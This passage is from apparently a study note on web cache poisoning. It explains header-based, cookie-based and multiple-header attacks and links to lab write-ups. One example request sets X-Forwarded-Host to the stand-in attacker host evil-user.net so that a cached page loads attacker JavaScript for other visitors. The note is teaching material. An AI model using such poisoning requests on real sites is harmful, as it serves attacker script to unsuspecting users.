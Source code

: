 If the response containing this malicious URL is cached, the attacker's JavaScript file would be imported and executed in the browser session of any user whose request has a matching cache key.
For example, in this case, with the `X-Forwarded-Host` header
```http 
GET / HTTP/1.1
Host: innocent-website.com
X-Forwarded-Host: evil-user.net
User-Agent: Mozilla/5.0 Firefox/57.0

HTTP/1.1 200 OK
<script src="https://evil-user.net/static/analytics.js"></script>
```

Here is a lab that covers this cache poisoning attack with a header: [cache_xxs_header](labs/cache_xxs_header.md)
### Using web cache poisoning to exploit cookie-handling vulnerabilities
Cookies are often **used to dynamically generate content in a response.** A common example might be a cookie that **indicates the user's preferred language**, which is then used to load the corresponding version of the page:

```HTTP
GET /blog/post.php?mobile=1 HTTP/1.1
Host: innocent-website.com
User-Agent: Mozilla/5.0 Firefox/57.0
Cookie: language=pl;
Connection: close
```

In this example, the Polish version of a blog post is being requested. Notice that the information about which language version to serve is only contained in the `Cookie` header. Let's suppose that the cache key contains the request line and the `Host` header, but not the `Cookie` header. In this case, if the response to this request is cached, then all subsequent users who tried to access this blog post would receive the Polish version as well, regardless of which language they actually selected.

This flawed handling of cookies by the cache can also be exploited using web cache poisoning techniques. In practice, however, **this vector is relatively rare in comparison to header-based cache poisoning**. When cookie-based cache poisoning vulnerabilities exist, they tend to be identified and resolved quickly because legitimate users have accidentally poisoned the cache.

Here is a lab that covers cache poisoning with a cookie: [cache_xss_cookie](labs/cache_xss_cookie.md)

### Using multiple headers to exploit web cache poisoning vulnerabilities
Some websites are vulnerable to simple web cache poisoning exploits, as demonstrated above. However, others require more sophisticated attacks and only become vulnerable when an attacker is able to craft a request that manipulates multiple unkeyed inputs.

For example, let's say a website requires secure communication using HTTPS. To enforce this, if a request that uses another protocol is received, the website dynamically generates a redirect to itself that does use HTTPS:
```
GET /random HTTP/1.1
Host: innocent-site.com
X-Forwarded-Proto: http

HTTP/1.1 301 moved permanently
Location: https://innocent-site.com/random
```
